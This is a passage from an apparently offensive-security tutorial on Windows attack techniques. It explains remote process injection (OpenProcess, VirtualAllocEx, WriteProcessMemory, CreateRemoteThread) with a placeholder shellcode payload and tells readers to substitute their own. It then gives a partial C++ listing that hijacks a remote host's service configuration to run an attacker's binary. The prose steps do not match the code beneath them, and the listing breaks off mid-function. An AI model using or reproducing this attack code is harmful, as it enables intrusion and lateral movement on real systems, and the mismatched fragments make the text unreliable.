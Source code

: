 2. **Opening a Handle to the Target Process**:
   - We obtain a handle to the target process by specifying the `PROCESS_ALL_ACCESS` flag in the `OpenProcess` function, which gives us full access to the target process.

3. **Injecting the Payload**:
   - We allocate memory in the target process using `VirtualAllocEx`.
   - The payload is written to the allocated memory with `WriteProcessMemory`.
   - Finally, we create a remote thread in the target process using `CreateRemoteThread`, which starts executing the payload.

4. **Example Payload**:
   - The payload in this example is a simple shellcode that executes `calc.exe`. In a real scenario, you would replace this with your payload.

5. **Cleaning Up**:
   - After injecting and executing the payload, we clean up by closing the process and SCM handles.



### **C++ Code Example**

```cpp
#include <windows.h>
#include <iostream>

bool ModifyServiceAndExecute(SC_HANDLE hService, const char* newBinaryPath) {
    // Change the service binary configuration
    if (!ChangeServiceConfigA(
            hService,                      // Handle to the service
            SERVICE_NO_CHANGE,             // Service type (no change)
            SERVICE_DEMAND_START,          // Service start type (manual)
            SERVICE_ERROR_NORMAL,          // Error control (no change)
            newBinaryPath,                 // Path to the new binary
            NULL,                          // Load order group (no change)
            NULL,                          // Tag identifier (no change)
            NULL,                          // Dependencies (no change)
            NULL,                          // Service start name (no change)
            NULL,                          // Password (no change)
            NULL                           // Display name (no change)
    )) {
        std::cerr << "Failed to change service configuration." << std::endl;
        return false;
    }

    std::cout << "Service configuration updated successfully." << std::endl;

    // Start the service
    if (!StartServiceA(hService, 0, NULL)) {
        std::cerr << "Failed to start the service." << std::endl;
        return false;
    }

    std::cout << "Service started successfully." << std::endl;
    return true;
}

int main() {
    const wchar_t* targetHost = L"\\TARGET-HOST"; // Change this to the target hostname
    const wchar_t* serviceName = L"YourServiceName"; // Change this to the target service name

    // Step 1: Open a connection to the SCM on the target machine
    SC_HANDLE hSCManager = OpenSCManagerW(targetHost, NULL, SC_MANAGER_CONNECT);
    if (hSCManager == NULL) {
        std::cerr << "Failed to connect to the Service Control Manager on the target machine." << std::endl;
        return 1;
```